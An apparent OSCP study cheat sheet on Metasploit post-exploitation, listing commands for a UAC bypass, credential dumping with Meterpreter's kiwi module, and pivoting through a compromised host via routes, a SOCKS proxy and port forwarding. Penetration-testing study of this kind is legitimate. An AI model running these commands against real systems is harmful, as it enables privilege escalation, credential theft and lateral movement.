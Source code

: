 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/6-post-exploitation-modules/","updated":"2024-01-05T11:36:33.630+01:00"}
---
```


--------------
### UAC bypass:
- Review the integrity level of current process:
```
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- Effective UAC bypass for modern Windows systems:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

---------------
### Kiwi Credential Stealer:
- Requires privileges like Mimikatz
- In Meterpreter:
```
#Load module:
load kiwi

#Dump LM/NTLM creds:
creds_msv

#Dump all creds:
creds_all
```

-----------
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
- Note: new shells on remote target through tunnel will only work if bind shells
- Example:
	route add 172.16.5.0/24 2

- Flush all routes:
```
route flush
```

- Auto-route module (recommended):
```
use multi/manage/autoroute
set session <id>
run
```

- SOCKS proxy module for tunnel outside of MSF:
	- Edit proxychains conf to port 1080 and win!
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

 - Meterpreter built-in port forward:
```
portfwd add -l <localport> -p <remoteport> -r <remoteip>
```
